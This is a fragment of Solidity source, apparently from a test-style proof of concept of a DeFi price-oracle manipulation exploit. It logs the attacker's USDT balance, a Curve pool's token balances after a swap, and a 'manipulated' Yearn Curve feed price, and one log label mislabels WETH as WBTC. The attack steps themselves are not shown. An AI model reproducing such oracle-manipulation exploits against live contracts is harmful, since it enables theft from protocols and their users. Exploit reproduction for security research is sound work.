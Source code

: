 │     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap, USDT balance of attacker:",                                                                                                                                                                                                       │
│       usdt.balanceOf(address(this))                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap, WBTC balance of CRV3Pool:",                                                                                                                                                                                                       │
│       WBTC.balanceOf(address(curveVyper_contract))                                                                                                                                                                                                   │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap, WBTC balance of CRV3Pool:",                                                                                                                                                                                                       │
│       WETH.balanceOf(address(curveVyper_contract))                                                                                                                                                                                                   │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap, USDT balance of CRV3Pool:",                                                                                                                                                                                                       │
│       usdt.balanceOf(address(curveVyper_contract))                                                                                                                                                                                                   │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_int(                                                                                                                                                                                                                              │
│       "Manipulated YVCrv3CryptoFeed lastanswer:",                                                                                                                                                                                                    │
│       YVCrv3CryptoFeed.latestAnswer()                                                                                                                                                                                                                │
│     );                                                                                                                                                                                                                                               │
